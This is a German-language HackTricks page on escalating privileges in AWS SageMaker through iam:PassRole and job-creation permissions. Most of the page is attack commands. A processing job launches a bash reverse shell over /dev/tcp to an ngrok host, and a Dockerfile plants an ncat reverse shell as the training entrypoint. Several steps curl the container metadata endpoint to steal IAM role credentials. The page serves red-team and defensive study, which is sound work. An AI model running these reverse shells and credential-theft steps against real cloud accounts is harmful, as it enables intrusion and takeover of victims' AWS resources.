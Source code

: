 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Beginnen Sie mit der Erstellung eines Notebooks mit der IAM-Rolle, die daran angehängt ist:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Die Antwort sollte ein Feld `NotebookInstanceArn` enthalten, das die ARN der neu erstellten Notizbuchinstanz enthält. Wir können dann die API `create-presigned-notebook-instance-url` verwenden, um eine URL zu generieren, die wir verwenden können, um auf die Notizbuchinstanz zuzugreifen, sobald sie bereit ist:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigieren Sie mit dem Browser zur URL und klicken Sie auf \`Open JupyterLab\` im oberen rechten Bereich, scrollen Sie dann zum Tab „Launcher“ und klicken Sie im Abschnitt „Other“ auf die Schaltfläche „Terminal“.

Jetzt ist es möglich, auf die Metadaten-Anmeldeinformationen der IAM-Rolle zuzugreifen.

**Potenzielle Auswirkungen:** Privesc auf die angegebene sagemaker-Dienstrolle.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Wenn bereits Jupyter **Notebooks darauf ausgeführt werden** und Sie sie mit `sagemaker:ListNotebookInstances` auflisten können (oder sie auf andere Weise entdecken). Sie können **eine URL für sie generieren, auf sie zugreifen und die Anmeldeinformationen stehlen, wie in der vorherigen Technik angegeben**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potenzielle Auswirkungen:** Privesc zur Sagemaker-Dienstrolle, die angehängt ist.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Ein Angreifer mit diesen Berechtigungen kann **Sagemaker einen Processing-Job ausführen** lassen, der mit einer Sagemaker-Rolle verbunden ist. Der Angreifer kann die Definition des Containers angeben, der in einer **AWS verwalteten ECS-Kontoinstanz** ausgeführt wird, und **die Anmeldeinformationen der angehängten IAM-Rolle stehlen**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potenzielle Auswirkungen:** Privesc auf die angegebene sagemaker-Dienstrolle.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen wird in der Lage sein, einen Trainingsjob zu erstellen, **ein beliebiges Container** darauf auszuführen mit einer **angehängten Rolle**. Daher wird der Angreifer in der Lage sein, die Anmeldeinformationen der Rolle zu stehlen.

{% hint style="warning" %}
Dieses Szenario ist schwieriger auszunutzen als das vorherige, da Sie ein Docker-Image erstellen müssen, das die rev shell oder Anmeldeinformationen direkt an den Angreifer sendet (Sie können keinen Startbefehl in der Konfiguration des Trainingsjobs angeben).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potenzielle Auswirkungen:** Privesc auf die angegebene sagemaker-Dienstrolle.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen wird (potenziell) in der Lage sein, einen **Hyperparameter-Trainingsjob** zu erstellen, **einen beliebigen Container** darauf auszuführen und eine **angehängte Rolle** zu verwenden.\
_Ich habe es nicht ausgenutzt wegen Zeitmangel, aber es sieht ähnlich aus wie die vorherigen Exploits, zögere nicht, einen PR mit den Ausnutzungsdetails zu senden._

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

